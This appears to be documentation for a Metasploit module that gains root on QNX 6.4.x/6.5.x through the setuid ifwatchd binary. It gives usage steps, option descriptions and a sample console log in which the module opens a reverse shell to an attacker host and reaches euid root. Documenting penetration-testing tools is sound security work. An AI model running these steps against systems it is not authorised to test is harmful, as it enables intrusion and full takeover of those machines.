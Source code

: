 ## Description

  This module attempts to gain root privileges on QNX 6.4.x and 6.5.x
  systems by exploiting the `ifwatchd` suid executable.


## Vulnerable Application

  `ifwatchd` allows users to specify scripts to execute using the `-A`
  command line argument; however, it does not drop privileges when
  executing user-supplied scripts, resulting in execution of arbitrary
  commands as root.

  This module has been tested successfully on QNX Neutrino 6.5.0 SP1.

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/qnx/local/ifwatchd_priv_esc`
  3. `set session <ID>`
  4. `run`
  5. You should get a *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/qnx/local/ifwatchd_priv_esc
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > set session 1 
  session => 1
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing interface arrival event script...
  [*] Executing /sbin/ifwatchd...
  [*] Command shell session 2 opened (172.16.191.188:4444 -> 172.16.191.215:65500) at 2018-03-22 15:18:48 -0400

  id
  uid=100(test) gid=100 euid=0(root)
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

